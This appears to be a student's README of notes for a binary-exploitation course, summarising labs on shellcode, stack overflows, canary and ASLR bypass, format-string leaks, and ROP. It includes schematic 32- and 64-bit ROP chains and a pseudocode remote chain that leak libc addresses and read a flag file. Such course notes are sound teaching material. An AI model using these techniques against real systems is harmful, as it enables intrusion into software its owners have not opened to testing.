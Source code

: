 # cs6265
# Lab01 GDB
Examining memory
Looking at registers, finding password in memory

# Lab02 Shellcode
Ghidra, writing our own vulnerabilites in shellcode and running against a program that executed them.

# Lab03 Stack Overflow
Creating a stack overflow to gain control of the stack pointer.
Redirect control flow to what we want. We found addresses using `readelf` or `binaryNinja`.

# Lab04 Stack Canaries
Stack canaries were introduced. We could no longer simply overwrite the `$eip` register. Binaries were compiled to protect against this. There are several ways to bypass:

1. Return to libc
1. Predict the canary

# Lab05 String Format Vulnerability
`printf` has a vulnerability in it. 

Learning about ASLR and how to get past it with a string format leak.
Print the addr, find difference to find the base. Call `start` again.

# Lab06 Return to Libc
Using ROP to load pre-existing functions into memory for both 32 bit architecture and 64 bit architectures. Note that the target was compiled using seccomp. This is a security facility in the linux kernal that only allows systme calls consisting of `exit()`, `sigreturn()`, `read()`, and `write()`.

This application leaked function address. I was able to parse and use the leak to summon `/bin/sh` and make system calls.

For the 32bit arch:
```
[buf      ]
[.....    ]
[ra       ] -> 1) open
[pop2     ] --------------------> pop/pop/ret
[arg1     ] -> "/proc/flag"
[arg2     ] -> 0 (O_RDONLY)
[ra       ] -> 2) read
[pop3     ] ------------------> pop/pop/pop/ret
[arg1     ] -> 3 (new fd)
[arg2     ] -> tmp
[arg3     ] -> 1024
[ra       ] -> 3) write
[dummy    ]
[arg1     ] -> 1 (stdout)
[arg2     ] -> tmp
[arg3     ] -> 1040
```

64bit architecture was a bit tougher. The address was not leaked for us. We needed to leak it ourselves using something like the following ROP chain:

```
[buf  ]
[.....]
[ra   ] -> pop rdi; ret
[arg1 ] -> puts@got
[ra   ] -> puts@plt
[ra   ] -> start
```

For 64bit arch:
```
[buf  ]
[.....]
[ra   ] -> pop rdi; ret
[arg1 ] -> "anystring in target" -> symbolic linked to flag
[ra   ] -> pop rsi; pop r15; ret
[arg2 ] -> 0
[dummy] (r15)
[ra   ] -> open()

[ra   ] -> pop rdi; ret
[arg1 ] -> 3
[ra   ] -> pop rsi; pop r15; ret
[arg2 ] -> tmp
[dummy] (r15)
[ra   ] -> pop rdx; ret
[arg3 ] -> 1040
[ra   ] -> read()

[ra   ] -> pop rdi; ret
[arg1 ] -> 1
[ra   ] -> pop rsi; pop r15; ret
[arg2 ] -> tmp
[dummy] (r15)
[ra   ] -> pop rdx; ret
[arg3 ] -> 1040
[ra   ] -> write()
```

Testing was done using a combination of `strace`, `gdb`, and pwntools. See the [tutorial page](https://tc.gts3.org/cs6265/2020-spring/tut/tut06-02-advrop.html) for more information.

# Lab07 ROP against remote service
Used netcat to connect to a server. Server plays rock, paper, scissors. Program uses `libc`'s random generator with the current time as the seed. We imported C's libc library into our script and predicted the correct output. Needed the correct output 5 times in a row to capture the flag.

Used ROP against a remote service. The difficulty here was that we didn't have access to the filesystem. This meant that we need to input our own path to the string using ROP. There were two options for this:

The first involved finding a combination of our strings in memory and using memset to write them somewhere writable. The second option involved calling `read()` on stdin. In our script, we then input the path to the flag. Our ROP chain looked something like this:

```
// Leak address of got.puts. Use this to find base.
popRdi
target.got.puts
target.plt.puts     // print addr of target.got.puts
target.symbols.start

// Read stdin for our new path. Path is written to tmp2
libc.symbols.read(0, tmp2, 256)
popRdi
tmp2                // print tmp2
target.plt.puts
target.symbols.start

// Open tmp2, read it in, write contents to stdout
libc.symbols.open(tmp2, 0)
libc.symbols.read(3, tmp, 1040)
libc.symbols.write(1, tmp, 1040)
```

# Lab08 Reliable exploit


